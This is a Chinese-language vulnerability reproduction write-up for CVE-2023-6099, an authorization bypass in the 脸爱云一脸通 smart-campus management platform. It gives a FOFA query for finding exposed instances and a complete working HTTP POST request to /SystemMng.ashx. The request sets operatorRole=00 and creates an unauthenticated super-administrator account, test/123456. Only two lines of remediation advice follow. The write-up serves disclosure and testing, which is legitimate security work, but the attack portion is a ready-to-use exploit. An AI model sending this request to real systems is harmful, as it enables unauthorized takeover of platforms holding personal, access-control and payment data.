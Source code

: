 
# 优卡特脸爱云一脸通智慧管理平台权限绕过漏洞复现（CVE-2023-6099）

### 0x01 产品简介

   脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。

   功能包括：系统管理中心、人员信息管理中心、设备管理中心、消费管理子系统、订餐管理子系统、水控管理子系统、电控管理子系统、考勤管理子系统、门禁通道管理子系统、会议签到管理子系统、访客管理子系统

### 0x02 漏洞概述

  脸爱云一脸通智慧管理平台/SystemMng.ashx接口处存在权限绕过漏洞，通过输入00操纵参数operatorRole，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户，造成信息泄露和后台接管（edu刷分神洞）

### 0x03 影响范围

  version <=1.0.55.0.0.1

### 0x04 复现环境

FOFA：title=="欢迎使用脸爱云 一脸通智慧管理平台"

![](assets/1700442551-8c5182188b60c424ac9502811d1dbb95.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /SystemMng.ashx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

operatorName=test&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![](assets/1700442551-bdc94d0d376516bdaeddbc219fa2fdbd.png) PS：成功创建了超级管理员 test/123456

登录后台验证

### ![](assets/1700442551-a98e26a302de9590c139e6bf7de436dc.png)0x06 修复建议

关闭互联网暴露面接口设置访问权限

升级至安全版本
